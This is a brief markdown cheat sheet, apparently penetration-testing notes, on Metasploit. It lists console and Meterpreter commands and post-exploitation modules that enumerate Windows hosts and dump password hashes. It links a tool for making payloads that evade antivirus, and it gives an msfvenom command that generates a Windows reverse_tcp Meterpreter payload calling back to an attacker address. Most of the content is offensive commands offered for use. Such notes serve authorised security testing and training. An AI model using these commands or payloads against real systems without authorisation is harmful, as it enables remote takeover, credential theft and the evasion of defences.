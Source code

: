 # METASPLOIT

* [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/) - the ultimate guide to the Metasploit Framework
* [Veil-Evasion](https://github.com/Veil-Framework/Veil-Evasion/) - generate metasploit payloads that bypass anti-virus solutions

Starting
--------
```
service postgresql start
msfdb init
msfconsole
```

Useful Metasploit Console Commands
----------------------------------
* [MSFconsole Core Commands](https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/)  
```
jobs
sessions -i 1
set session 1
```

Useful Meterpreter Commands
---------------------------
```
sysinfo
exit/quit
download/upload
edit
getpid
geuid
ps
kill
execute
migrate

```

Post-exploitation module: `run winenum` script.  
Windows hashes: `run post/windows/gather/smart_hashdump`  

* [Web Delivery explained](https://www.offensive-security.com/metasploit-unleashed/web-delivery/) //tip: check if there's port added in the payload URL



Payload generating with msfvenom should be something like this...  
`msfvenom -p windows/meterpreter/reverse_tcp -f c LHOST=192.168.1.69 LPORT=4444`    
where -p is for payload, -f is for format (C in this case). Needs bad characters as well.
